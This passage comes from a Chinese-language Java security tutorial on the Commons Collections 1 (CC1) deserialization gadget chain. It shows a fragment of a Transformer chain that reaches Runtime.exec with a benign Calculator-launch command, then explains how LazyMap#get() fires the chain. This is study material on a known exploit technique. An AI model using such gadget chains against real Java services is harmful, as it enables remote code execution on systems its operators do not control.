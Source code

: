 ```java
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

```

### 寻找漏洞触发点
> 前面只是构造了 transformers 链，还需要找到一个`transform()`方法将其触发

接着下面创建了一个`HashMap`实例，然后调用`LazyMap.decorate()`方法，跟进后发现调用了`LazyMap`的构造函数，传入的`Transformer`赋值给`this.factory`。并且该类的构造函数为`proteccted`，因此不能直接调用。

![Java安全漫谈-CC1篇-6](assets/Java安全漫谈-CC1篇-6.png)

在该类中搜索`this.factory`，发现在`LazyMap#get()`方法中触发了`transform()`，前提是传入的`key`不在 Map 中
